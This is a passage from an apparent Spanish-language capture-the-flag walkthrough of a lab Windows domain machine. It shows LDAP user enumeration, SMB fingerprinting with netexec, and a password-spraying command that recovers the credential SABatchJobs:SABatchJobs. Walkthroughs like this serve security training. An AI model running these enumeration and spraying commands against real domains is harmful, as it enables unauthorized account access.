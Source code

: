 `Obtenemos` toda la `información` disponible del `dominio` y `filtramos` por los `usuarios` que tiene un directorio home en la máquina

```
# ldapsearch -x -H ldap://10.129.228.111 -b 'DC=MEGABANK,DC=LOCAL' | grep homeDirectory                      
homeDirectory: \\monteverde\users$\mhope
homeDirectory: \\monteverde\users$\dgalanos
homeDirectory: \\monteverde\users$\roleary
homeDirectory: \\monteverde\users$\smorgan
```

`Incorporamos` estos `usuarios` al `listado` de `usuarios` que teníamos anteriormente

```
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
mhope
dgalanos
roleary
smorgan
```
### SMB Enumeration

`Obtenemos` el `nombre` de la `máquina` y el `dominio`

```
# netexec smb 10.129.228.111                                                                                                            
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

`Hacemos` un `password spraying` para ver si algún usuario tiene como `contraseña` la `misma` que su `nombre` y `obtenemos` unas `credenciales`

```
# netexec smb 10.129.228.111 -u users -p users --continue-on-success | grep -v "STATUS_LOGON_FAILURE"

SMB                      10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB                      10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

`Listamos` los `recursos` compartidos
